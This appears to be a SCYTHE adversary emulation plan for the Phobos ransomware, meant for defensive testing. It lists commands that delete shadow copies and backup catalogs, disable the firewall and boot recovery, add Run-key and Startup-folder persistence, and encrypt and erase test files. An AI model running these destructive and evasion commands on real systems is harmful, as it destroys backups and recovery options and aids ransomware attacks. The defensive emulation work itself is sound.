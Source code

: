 # Phobos Ransomware Adversary Emulation Plan

This threat is based on the BlackBerry blog post: https://blogs.blackberry.com/en/2021/09/threat-thursday-phobos-ransomware

## Emulate with SCYTHE
**Note this threat, if executed with administrative privileges, will delete Volume Shadow Copies and modify bootup. For testing purposes, you may want to test in non-production, make an offline backup, and/or or take a snapshot.

1. Download and import the threat in JSON format to your SCYTHE instance 
2. Download the Virtual File System (VFS) files under the VFS folder
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Phobos
4. Create a new campaign
5. Import from Existing Threat: Phobos
6. Launch Campaign
7. Download the 32-bit EXE payload generated by SCYTHE 
8. Rename the file to horsemoney.exe
9. Execute horsemoney.exe with elevated privileges

## Manual Emulation with SCYTHE
1. loader --load run
2. loader --load file
3. controller --integrity
4. Decision: if running elevated, go to step 9
5. loader --load elevate
6. elevate --prompt
7. controller --integrity
8. Decision: if not running elevated, go to step 20
9. STEP = DEFENSE EVASION
10. run vssadmin delete shadows /all /quiet
11. run netsh advfirewall set currentprofile state off
12. run netsh firewall set opmode mode=disable
13. run wmic shadowcopy delete
14. run bcdedit  /set {default} bootstatuspolicy ignoreallfailures
15. run bcdedit  /set {default} recoveryenabled no
16. run wbadmin delete catalog -quiet
17. STEP = PERSISTENCE
18. file --create --path "%AllUsersProfile%\Microsoft\Windows\Start Menu\Programs\StartUp\horsemoney.exe" --size 1MB --count 1 --random
19. run cmd /c REG ADD HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Windows\CurrentVersion\Run\horsemoney /v Example /d "Phobos Data" /f
20. file --create --path "%LocalAppData%\horsemoney.exe" --size 1MB --count 1 --random
21. file --create --path "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\horsemoney.exe" --size 1MB --count 1 --random
22. run cmd /c REG ADD HKEY_CURRENT_USER\SOFTWARE\WOW6432Node\Windows\CurrentVersion\Run\horsemoney /v Example /d "Phobos Data" /f
23. STEP = IMPACT
24. run cmd /c mkdir "%USERPROFILE%\Desktop\Phobos"
25. file --create --path "%USERPROFILE%\Desktop\Phobos\target_file.xls" --size 1MB --count 100 --random
26. loader --load crypt
27. crypt --target "%USERPROFILE%\Desktop\Phobos\" --encrypt --password "#RansomwareSucks" --erase
28. file --create --path "%USERPROFILE%\Desktop\Phobos\encryptedfile.HORSEMONEY" --size 1MB --count 1 --random
29. loader --load downloader
30. downloader --src "VFS:/shared/Phobos/info.hta" --dest "%USERPROFILE%\Desktop\Phobos\info.hta"
31. run mshta.exe "%USERPROFILE%\Desktop\Phobos\info.hta" &
32. STEP = CLEANUP
33. run cmd /c del "%LocalAppData%\horsemoney.exe"
34. run cmd /c del "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup\horsemoney.exe"
35. run cmd /c REG DELETE HKEY_CURRENT_USER\SOFTWARE\WOW6432Node\Windows\CurrentVersion\Run\horsemoney /f
36. run cmd /c rmdir /Q /S "%USERPROFILE%\Desktop\Phobos"
37. controller --shutdown